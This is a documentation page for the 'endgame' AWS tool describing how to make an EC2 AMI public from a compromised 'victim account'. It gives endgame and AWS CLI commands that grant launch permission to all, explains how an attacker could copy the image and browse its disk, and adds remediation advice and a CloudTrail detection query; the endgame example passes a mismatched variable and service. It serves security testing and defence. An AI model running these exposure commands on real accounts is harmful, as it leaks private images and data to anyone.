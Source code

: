 # EC2 AMIs (Machine Images)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=*
export IMAGE_ID=ami-5731123e

endgame expose --service ebs --name $SNAPSHOT_ID
```

* To expose the resource using AWS CLI, run the following from the victim account:

```bash
aws ec2 modify-image-attribute \
    --image-id ami-5731123e \
    --launch-permission "Add=[{Group=all}]"
```

* To validate that the resource has been shared publicly, run the following:

```bash
aws ec2 describe-image-attribute \
    --image-id ami-5731123e \ 
    --attribute launchPermission
```

* Observe that the contents of the exposed AMI match the example shown below.

## Example

The output of `aws ec2 describe-image-attribute` reveals that the AMI is public if the value of "Group" under "LaunchPermissions" is equal to "all"

```
{
    "LaunchPermissions": [
        {
            "Group": "all"
        }
    ],
    "ImageId": "ami-5731123e",
}
```

## Exploitation

After an EC2 AMI is made public, an attacker can then:
* [Copy the AMI](https://docs.aws.amazon.com/cli/latest/reference/ec2/copy-image.html) into their own account
* Launch an EC2 instance using that AMI and browse the contents of the disk, potentially revealing sensitive or otherwise non-public information.

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Trusted Accounts Only**: Ensure that EC2 AMIs are only shared with trusted accounts, and that the trusted accounts truly need access to the EC2 AMIs.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your AMIs**: Tightly control access to the following IAM actions:
  - [ec2:ModifyImageAttribute](https://docs.aws.amazon.com/AWSEC2/latest/APIReference/API_ModifyImageAttribute.html): _Grants permission to modify an attribute of an Amazon Machine Image (AMI)_
  - [ec2:DescribeImageAttribute](https://docs.aws.amazon.com/AWSEC2/latest/APIReference/API_DescribeImageAttribute.html): _Grants permission to describe an attribute of an Amazon Machine Image (AMI). This includes information on which accounts have access to the AMI_
  - [ec2:DescribeImages](https://docs.aws.amazon.com/AWSEC2/latest/APIReference/API_DescribeImages.html): _Grants permission to describe one or more images (AMIs, AKIs, and ARIs)_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='ec2.amazonaws.com' and (eventName='ModifyImageAttribute' and requestParameters.attributeType='launchPermission') 
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

- [aws ec2 modify-image-attribute](https://docs.aws.amazon.com/cli/latest/reference/ec2/modify-image-attribute.html)
- [aws ec2 describe-image-attribute](https://docs.aws.amazon.com/cli/latest/reference/ec2/describe-image-attribute.html)